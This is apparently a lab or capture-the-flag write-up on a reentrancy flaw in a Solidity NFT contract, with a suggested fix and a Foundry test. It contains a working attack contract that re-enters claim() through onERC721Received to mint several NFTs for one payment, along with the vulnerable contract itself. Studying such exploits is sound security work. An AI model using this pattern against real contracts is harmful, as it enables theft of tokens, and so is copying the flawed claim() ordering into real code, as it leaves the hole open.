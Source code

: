 ## SafeNFT attack

The safeNFT is vulnerable to an reentrency attack in the claim function. The _safeMint() function is used before the canClaim state vriable is resettet.
The ERC721 standard checks on a transfer to an contract, if it implements the onERC721Received function and checks the return value.  
This can be used for the reentrence to claim another nft before the state varaible canClaim is resettet.

## Mitigation
Change the order in the claim() function to:
```solidity
canClaim[msg.sender] = false;
_safeMint(msg.sender, totalSupply()); 
```

or use a reentrence guard on that function. 

## Test
forge test --match-contract=SafeNFTTest

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.17;

import "forge-std/Test.sol";
import "openzeppelin/contracts/token/ERC721/extensions/ERC721Enumerable.sol";

contract SafeNFTTest is Test {

    address owner = 0x0000000000000000000000000000000000000001;
    address attacker = 0x0000000000000000000000000000000000000003;

    safeNFT public nft;

    function setUp() public {
        vm.prank(owner);
        nft = new safeNFT("SafeNFT", "SNFT", 0.01 ether);
        
        vm.deal(attacker, 5 ether);
    }

    function testAttack() public {        
        
        // check that the attacker has 0 nft balance
        assertEq(nft.balanceOf(attacker), 0);

        // we deploy now our attacker
        vm.prank(attacker);
        AttackTheSafeNFT attckerContract = new AttackTheSafeNFT(address(nft));

        // get 5 nfts for only 0.01 ether
        vm.prank(attacker);
        attckerContract.drainSomeNft{value: 0.01 ether}();

        // attacker now have 5 nfts for only 0.01 ether
        assertEq(nft.balanceOf(attacker), 5);

        // we can do it one more time to have 10 in total for only 0.02 in sum
        vm.prank(attacker);
        attckerContract.drainSomeNft{value: 0.01 ether}();

        assertEq(nft.balanceOf(attacker), 10);
    }
}

contract AttackTheSafeNFT {

    uint256 nftsDrained = 0;
    address private immutable owner;
    safeNFT private immutable nft;

    constructor(address _nft) {
        owner = msg.sender;
        nft = safeNFT(_nft);
    }

    function drainSomeNft() external payable {
        // reset to 0, so we can drain as often as we want
        nftsDrained = 0;

        nft.buyNFT{value: msg.value}();

        nft.claim();
    }

    function onERC721Received(address, address, uint256 _tokenId, bytes calldata) external returns(bytes4) {
        // move to owner if we havent drained 5
        if(nftsDrained < 5) {
            ++nftsDrained;
            nft.transferFrom(address(this), owner, _tokenId);
            nft.claim();
        }
        return bytes4(keccak256("onERC721Received(address,address,uint256,bytes)"));
    }
}


contract safeNFT is ERC721Enumerable {
    uint256 price;
    mapping(address=>bool) public canClaim;

    constructor(string memory tokenName, string memory tokenSymbol,uint256 _price) ERC721(tokenName, tokenSymbol) {
        price = _price; //price = 0.01 ETH
    }

    function buyNFT() external payable {
        require(price==msg.value,"INVALID_VALUE");
        canClaim[msg.sender] = true;
    }

    function claim() external {
        require(canClaim[msg.sender],"CANT_MINT");
        _safeMint(msg.sender, totalSupply()); 
        canClaim[msg.sender] = false;
    }
 
}
```